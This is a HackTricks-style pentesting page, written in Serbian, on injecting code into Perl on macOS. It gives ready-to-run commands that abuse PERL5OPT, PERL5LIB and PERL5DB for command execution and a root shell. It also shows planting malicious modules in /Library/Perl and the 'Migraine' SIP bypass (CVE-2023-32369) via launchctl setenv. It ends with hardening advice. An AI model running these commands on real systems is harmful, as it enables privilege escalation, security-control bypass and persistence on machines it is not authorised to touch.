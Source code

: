 # macOS Perl Applications Injection

{{#include ../../../banners/hacktricks-training.md}}

## Putem `PERL5OPT` & `PERL5LIB` env varijable

Korišćenjem env varijable **`PERL5OPT`** moguće je naterati **Perl** da izvrši proizvoljne komande kada se interpreter pokrene (čak **pre** nego što se prva linija ciljnog skripta obradi).
Na primer, kreirajte ovaj skript:
```perl:test.pl
#!/usr/bin/perl
print "Hello from the Perl script!\n";
```
Sada **izvezite env promenljivu** i izvršite **perl** skriptu:
```bash
export PERL5OPT='-Mwarnings;system("whoami")'
perl test.pl # This will execute "whoami"
```
Druga opcija je da se kreira Perl modul (npr. `/tmp/pmod.pm`):
```perl:/tmp/pmod.pm
#!/usr/bin/perl
package pmod;
system('whoami');
1; # Modules must return a true value
```
I zatim koristite env varijable tako da se modul automatski locira i učita:
```bash
PERL5LIB=/tmp/ PERL5OPT=-Mpmod perl victim.pl
```
### Ostale zanimljive promenljive okruženja

* **`PERL5DB`** – kada se interpreter pokrene sa **`-d`** (debugger) flagom, sadržaj `PERL5DB` se izvršava kao Perl kod *unutar* konteksta debagera. 
Ako možete da utičete na oba, okruženje **i** komandne linijske flagove privilegovanog Perl procesa, možete uraditi nešto poput:

```bash
export PERL5DB='system("/bin/zsh")'
sudo perl -d /usr/bin/some_admin_script.pl   # će otvoriti shell pre izvršavanja skripte
```

* **`PERL5SHELL`** – na Windows-u ova promenljiva kontroliše koji izvršni fajl shell-a Perl će koristiti kada treba da pokrene shell. Pominje se ovde samo radi potpunosti, jer nije relevantna na macOS-u.

Iako `PERL5DB` zahteva `-d` switch, uobičajeno je naći skripte za održavanje ili instalaciju koje se izvršavaju kao *root* sa ovim flagom uključenim za detaljno rešavanje problema, čineći promenljivu validnim vektorom eskalacije.

## Putem zavisnosti (@INC zloupotreba)

Moguće je nabrojati putanju uključivanja koju Perl će pretraživati (**`@INC`**) pokretanjem:
```bash
perl -e 'print join("\n", @INC)'
```
Tipičan izlaz na macOS 13/14 izgleda ovako:
```bash
/Library/Perl/5.30/darwin-thread-multi-2level
/Library/Perl/5.30
/Network/Library/Perl/5.30/darwin-thread-multi-2level
/Network/Library/Perl/5.30
/Library/Perl/Updates/5.30.3
/System/Library/Perl/5.30/darwin-thread-multi-2level
/System/Library/Perl/5.30
/System/Library/Perl/Extras/5.30/darwin-thread-multi-2level
/System/Library/Perl/Extras/5.30
```
Neki od vraćenih foldera čak ni ne postoje, međutim **`/Library/Perl/5.30`** postoji, *nije* zaštićen SIP-om i *pre* je zaštićenih foldera SIP-om. Stoga, ako možete pisati kao *root*, možete postaviti zloćudni modul (npr. `File/Basename.pm`) koji će biti *preferencijalno* učitan od strane bilo kog privilegovanog skripta koji uvozi taj modul.

> [!WARNING]
> I dalje vam je potreban **root** da biste pisali unutar `/Library/Perl`, a macOS će prikazati **TCC** prompt koji traži *Potpunu pristup disku* za proces koji vrši operaciju pisanja.

Na primer, ako skripta uvozi **`use File::Basename;`**, bilo bi moguće kreirati `/Library/Perl/5.30/File/Basename.pm` koji sadrži kod pod kontrolom napadača.

## SIP zaobilaženje putem Migration Assistant (CVE-2023-32369 “Migraine”)

U maju 2023. Microsoft je objavio **CVE-2023-32369**, nazvan **Migraine**, tehnika post-exploatacije koja omogućava *root* napadaču da potpuno **zaobiđe zaštitu integriteta sistema (SIP)**. 
Ranljiva komponenta je **`systemmigrationd`**, demon sa ovlašćenjem **`com.apple.rootless.install.heritable`**. Svaki podproces koji pokrene ovaj demon nasleđuje ovlašćenje i stoga se izvršava **van** SIP ograničenja.

Među decom koje su identifikovali istraživači je Apple-ov potpisani interpreter:
```
/usr/bin/perl /usr/libexec/migrateLocalKDC …
```
Zato što Perl poštuje `PERL5OPT` (a Bash poštuje `BASH_ENV`), zagađenje *okruženja* daemona je dovoljno da se dobije proizvoljna izvršna prava u kontekstu bez SIP-a:
```bash
# As root
launchctl setenv PERL5OPT '-Mwarnings;system("/private/tmp/migraine.sh")'

# Trigger a migration (or just wait – systemmigrationd will eventually spawn perl)
open -a "Migration Assistant.app"   # or programmatically invoke /System/Library/PrivateFrameworks/SystemMigration.framework/Resources/MigrationUtility
```
Kada `migrateLocalKDC` pokrene, `/usr/bin/perl` se pokreće sa malicioznim `PERL5OPT` i izvršava `/private/tmp/migraine.sh` *pre nego što se SIP ponovo omogući*. Iz tog skripta možete, na primer, kopirati payload unutar **`/System/Library/LaunchDaemons`** ili dodeliti `com.apple.rootless` proširenu atribut da biste učinili datoteku **neizbrisivom**.

Apple je ispravio problem u macOS **Ventura 13.4**, **Monterey 12.6.6** i **Big Sur 11.7.7**, ali stariji ili neispravljeni sistemi ostaju podložni eksploataciji.

## Preporuke za učvršćivanje

1. **Obrišite opasne promenljive** – privilegovani launchdaemons ili cron poslovi treba da se pokreću u čistom okruženju (`launchctl unsetenv PERL5OPT`, `env -i`, itd.).
2. **Izbegavajte pokretanje interpretera kao root** osim ako nije strogo neophodno. Koristite kompajlirane binarne datoteke ili rano smanjite privilegije.
3. **Vendor skripte sa `-T` (taint mode)** tako da Perl ignoriše `PERL5OPT` i druge nesigurne opcije kada je provera taint-a omogućena.
4. **Držite macOS ažuriranim** – “Migrena” je potpuno ispravljena u trenutnim izdanjima.

## Reference

- Microsoft Security Blog – “Nova macOS ranjivost, Migrena, može zaobići zaštitu integriteta sistema” (CVE-2023-32369), 30. maj 2023.
- Hackyboiz – “macOS SIP Bypass (PERL5OPT & BASH_ENV) istraživanje”, maj 2025.

{{#include ../../../banners/hacktricks-training.md}}
